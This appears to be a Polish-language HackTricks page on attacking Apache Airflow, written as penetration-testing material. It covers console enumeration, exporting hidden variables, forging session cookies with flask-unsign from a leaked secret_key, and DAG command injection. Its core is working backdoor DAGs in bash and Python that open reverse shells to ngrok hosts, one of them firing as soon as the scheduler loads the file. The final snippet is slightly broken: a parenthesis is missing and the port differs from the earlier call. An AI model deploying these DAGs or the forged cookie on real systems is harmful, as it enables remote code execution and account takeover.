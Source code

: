 # Apache Airflow Security

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

### Podstawowe informacje

[**Apache Airflow**](https://airflow.apache.org) służy jako platforma do **orkiestrowania i harmonogramowania potoków danych lub przepływów pracy**. Termin "orkiestracja" w kontekście potoków danych oznacza proces aranżowania, koordynowania i zarządzania złożonymi przepływami pracy danych pochodzącymi z różnych źródeł. Głównym celem tych zorganizowanych potoków danych jest dostarczenie przetworzonych i nadających się do użycia zbiorów danych. Zbiory te są szeroko wykorzystywane przez wiele aplikacji, w tym, ale nie tylko, narzędzia do analizy biznesowej, modele nauki o danych i uczenia maszynowego, które są podstawą funkcjonowania aplikacji big data.

W zasadzie Apache Airflow pozwoli Ci **zaplanować wykonanie kodu, gdy coś** (zdarzenie, cron) **się wydarzy**.

### Lokalna laboratoria

#### Docker-Compose

Możesz użyć **pliku konfiguracyjnego docker-compose z** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml), aby uruchomić kompletną środowisko docker apache airflow. (Jeśli jesteś na MacOS, upewnij się, że przydzielisz co najmniej 6 GB RAM dla VM docker).

#### Minikube

Jednym z łatwych sposobów na **uruchomienie apache airflow** jest uruchomienie go **z minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Konfiguracja Airflow

Airflow może przechowywać **wrażliwe informacje** w swojej konfiguracji lub możesz znaleźć słabe konfiguracje:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Zanim zaczniesz atakować Airflow, powinieneś zrozumieć **jak działają uprawnienia**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataki

#### Enumeracja konsoli internetowej

Jeśli masz **dostęp do konsoli internetowej**, możesz uzyskać dostęp do niektórych lub wszystkich następujących informacji:

* **Zmienne** (Własne wrażliwe informacje mogą być tutaj przechowywane)
* **Połączenia** (Własne wrażliwe informacje mogą być tutaj przechowywane)
* Uzyskaj do nich dostęp w `http://<airflow>/connection/list/`
* [**Konfiguracja**](./#airflow-configuration) (Wrażliwe informacje, takie jak **`secret_key`** i hasła mogą być tutaj przechowywane)
* Lista **użytkowników i ról**
* **Kod każdego DAG** (który może zawierać interesujące informacje)

#### Pobieranie wartości zmiennych

Zmienne mogą być przechowywane w Airflow, aby **DAG** mogły **uzyskiwać** ich wartości. Jest to podobne do sekretów innych platform. Jeśli masz **wystarczające uprawnienia**, możesz uzyskać do nich dostęp w GUI w `http://<airflow>/variable/list/`.\
Airflow domyślnie pokaże wartość zmiennej w GUI, jednak zgodnie z [**tym**](https://marclamberti.com/blog/variables-with-apache-airflow/) możliwe jest ustawienie **listy zmiennych**, których **wartość** będzie wyświetlana jako **gwiazdki** w **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Jednak te **wartości** mogą być nadal **pobrane** za pomocą **CLI** (musisz mieć dostęp do bazy danych), **wykonywania dowolnego DAG**, **API** uzyskującego dostęp do punktu końcowego zmiennych (API musi być aktywowane) i **nawet samego GUI!**\
Aby uzyskać dostęp do tych wartości z GUI, po prostu **wybierz zmienne**, do których chcesz uzyskać dostęp i **kliknij na Akcje -> Eksportuj**.\
Innym sposobem jest przeprowadzenie **bruteforce** na **ukrytej wartości** za pomocą **filtrowania wyszukiwania**, aż ją uzyskasz:

![](<../../.gitbook/assets/image (152).png>)

#### Eskalacja uprawnień

Jeśli konfiguracja **`expose_config`** jest ustawiona na **True**, z **rolą Użytkownik** i **wyżej** mogą **czytać** **konfigurację w sieci**. W tej konfiguracji pojawia się **`secret_key`**, co oznacza, że każdy użytkownik z tym ważnym kluczem może **utworzyć własny podpisany cookie, aby podszyć się pod inne konto użytkownika**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE w Airflow worker)

Jeśli masz **uprawnienia do zapisu** w miejscu, gdzie **DAGi są zapisywane**, możesz po prostu **stworzyć jeden**, który wyśle ci **reverse shell.**\
Zauważ, że ten reverse shell będzie wykonywany wewnątrz **kontenera airflow worker:**
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE w harmonogramie Airflow)

Jeśli ustawisz coś do **wykonania w katalogu głównym kodu**, w momencie pisania tego tekstu, zostanie to **wykonane przez harmonogram** po kilku sekundach od umieszczenia go w folderze DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Tworzenie DAG

Jeśli uda ci się **skompromentować maszynę w klastrze DAG**, możesz stworzyć nowe **skrypty DAG** w folderze `dags/`, a one będą **replikowane w pozostałych maszynach** w klastrze DAG.

#### Wstrzykiwanie kodu DAG

Kiedy wykonujesz DAG z GUI, możesz **przekazać argumenty** do niego.\
Dlatego, jeśli DAG nie jest odpowiednio zakodowany, może być **vulnerable to Command Injection.**\
To właśnie wydarzyło się w tym CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Wszystko, co musisz wiedzieć, aby **zacząć szukać wstrzyknięć poleceń w DAGach**, to że **parametry** są **dostępne** za pomocą kodu **`dag_run.conf.get("param_name")`**.

Ponadto, ta sama podatność może wystąpić z **zmiennymi** (zauważ, że przy wystarczających uprawnieniach możesz **kontrolować wartość zmiennych** w GUI). Zmienne są **dostępne za pomocą**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Jeśli są używane na przykład wewnątrz polecenia bash, możesz wykonać wstrzyknięcie polecenia.

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

